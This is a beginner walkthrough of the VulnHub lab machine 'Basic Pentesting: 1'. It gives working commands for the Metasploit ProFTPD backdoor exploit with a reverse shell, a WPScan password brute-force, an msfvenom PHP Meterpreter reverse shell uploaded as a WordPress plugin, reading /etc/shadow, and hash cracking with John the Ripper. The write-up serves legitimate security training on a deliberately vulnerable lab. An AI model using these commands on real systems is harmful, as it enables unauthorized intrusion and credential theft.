









# Basic Pentesting: 1 Walkthrough 
**Link**: [https://www.vulnhub.com/entry/basic-pentesting-1,216/](https://www.vulnhub.com/entry/basic-pentesting-1,216/) \
**OS**: Linux  
**Difficulty**: Beginner  
**Approach**: ProFTPD and Wordpress week password -> php reverse shell
**Date of writeup**: March 2026

As usual, let's run a basic Nmap scan:

```
sudo nmap -sS -sV -A 192.168.56.106
```

Right away we found something interesting:



I'm pretty sure that **ProFTPD 1.3.3c** is vulnerable (it contains a well-known backdoor), so let's check with searchsploit:

```
searchsploit ProFTPD 1.3.3c
```

Great, there it is — and it's even available in Metasploit:



Run msfconsole and select the corresponding exploit:

```
msfconsole
use exploit/unix/ftp/proftpd_133c_backdoor
```

Set a payload:

```
set payload payload/cmd/unix/reverse_perl
```

The only things left are to set **RHOSTS** and **LHOST**:

```
set RHOSTS 192.168.56.106 // Target IP
set LHOST 192.168.56.104 // Your IP
```

After running the exploit (exploit or run), we immediately get a root shell. Nice!
But let's look for other ways to get in. Opening the machine IP in the browser gives this page:



Gobuster finds something intresting:



There is a **/secret/** directory — and it's a WordPress site:

 

While looking around the website, I noticed links pointing to a certain domain, for example:

```
http://vtcsec/secret/index.php/2017/11/16/hello-world/
```

**vtcsec** is supposed to be the domain of our target machine. So let's add it to /etc/hosts:

```
sudo vim /etc/hosts
```

Add a new line in the format <ip> <domain>. In my case:

```
192.168.56.106 vtcsec
```

Now you can browse the site using the domain name. Let's run WPScan to enumerate users:

```
wpscan --url http://192.168.56.106/secret/ -e u     
```

We have found an **admin** user



Let's try to brute-force the password:

```
wpscan --url http://192.168.56.106/secret/ --usernames admin --passwords=/usr/share/wordlists/rockyou.txt 
```

Fortunately, the login panel is protected by a very weak password:



Now we need to upload a reverse shell to gain access to the server. First we need to generate our payload:

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.56.104 LPORT=443 -f raw > reverse-shell.php
```

(Replace **LHOST** and **LPORT** with your own IP and desired port.)
Now in the Wordpress admin panel go to **Plugins -> Add New**: 



Click **Upload Plugin** and select the newly created **reverse-shell.php**.
Next, set up a Meterpreter listener. Open msfconsole again:

```
msfconsole
use exploit/multi/handler
set payload php/meterpreter_reverse_tcp
set LHOST 192.168.56.104
set LPORT 443
run
```


To trigger the reverse shell, navigate to the uploaded file in your browser. Uploaded plugins usually end up in:

```
http://192.168.56.106/secret/wp-content/uploads/2026/03/reverse-shell.php
```

Great, we got a Meterpreter shell:



Lets make it prettier:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```


Lets check **/etc/shadow**:

```
cat /etc/shadow
```


Copy the interesting line(s) (e.g. the hash for user marlinspike or others) to a file called crack.txt on your machine and run John the Ripper to brute-force the password:

```
john crack.txt
```

And here our password 



We can use this password to login into machine through GUI

Its a great machine for beginners that shows multiple attack vectors and teaches how to exploit them.